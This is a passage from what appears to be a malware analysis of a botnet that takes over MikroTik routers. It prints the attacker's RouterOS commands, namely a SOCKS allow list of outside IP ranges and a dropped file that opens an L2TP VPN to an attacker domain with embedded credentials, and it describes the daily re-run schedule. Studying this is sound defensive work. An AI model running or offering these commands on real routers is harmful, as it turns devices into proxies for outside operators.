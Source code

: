 ```
  /ip socks access add src-address=5.3.117.0/24 action=allow
  /ip socks access add src-address=5.3.121.0/24 action=allow
  /ip socks access add src-address=5.3.145.0/24 action=allow
  /ip socks access add src-address=5.3.149.0/24 action=allow
  /ip socks access add src-address=5.3.153.0/24 action=allow
  /ip socks access add src-address=5.167.9.0/24 action=allow
  /ip socks access add src-address=5.167.13.0/24 action=allow
  /ip socks access add src-address=5.3.153.0/24 action=allow
  /ip socks access add src-address=5.167.9.0/24 action=allow
  /ip socks access add src-address=5.167.13.0/24 action=allow
  /ip socks access add src-address=5.167.17.0/24 action=allow
  /ip socks access add src-address=94.180.1.0/24 action=allow
  /ip socks access add src-address=94.180.5.0/24 action=allow
  /ip socks access add src-address=94.180.9.0/24 action=allow
  /ip socks access add src-address=217.119.22.83/32 action=allow
  /ip socks access add src-address=5.17.85.26/32 action=allow
  /ip socks access add src-address=217.119.24.0/24 action=allow
  /ip socks access add src-address=192.243.53.0/24 action=allow
  /ip socks access add src-address=192.243.55.0/24 action=allow
  /ip socks access add src-address=146.0.78.5/32 action=allow
  /ip socks access add src-address=185.202.1.142/32 action=allow
  /ip socks access add src-address=95.246.101.58/32 action=allow
  /ip socks access add src-address=176.9.65.8/32 action=allow
  /ip socks access add src-address=135.181.15.102/32 action=allow
  /ip socks access add src-address=198.18.0.0/15 action=allow
  /ip socks access add src-address=139.99.94.160/29 action=allow
  /ip socks access add src-address=5.188.119.191 action=allow
  /ip socks access add src-address=178.63.52.202 action=allow
  /ip socks access add src-address=136.243.21.233 action=allow
  /ip socks access add src-address=136.243.90.81 action=allow
  /ip socks access add src-address=94.130.223.9 action=allow
  /ip socks access add src-address=0.0.0.0/0 action=deny
```

6. A new version of 7xe7zt46hb08 was downloaded the next day. This one creates a l2tp VPN to s80.leappoach.info. This domain is not used for C2, but the VPN server does use the infected mikrotik as a SOCKS proxy. 

```
name="7xe7zt46hb08" type="file" size=153 creation-time=may/26/2021 19:03:20 
contents=/interface l2tp-client add name=lvpn keepalive-timeout=60 
      user=user5325010 password=pass5325010 connect-to=s80.leappoach.info 
      disabled=no profile=default 
```

At this point stage 6 is repeated every day at 03:33:19[2]. This L2TP connection must be considered very important. Stage 6 appears to be the terminal state. When stage 6 was first reached, I had not yet exposed the SOCKS port to the internet. On Jun 19th I did and almost immediately started seeing SOCKS traffic. 

## Botnet Behavior
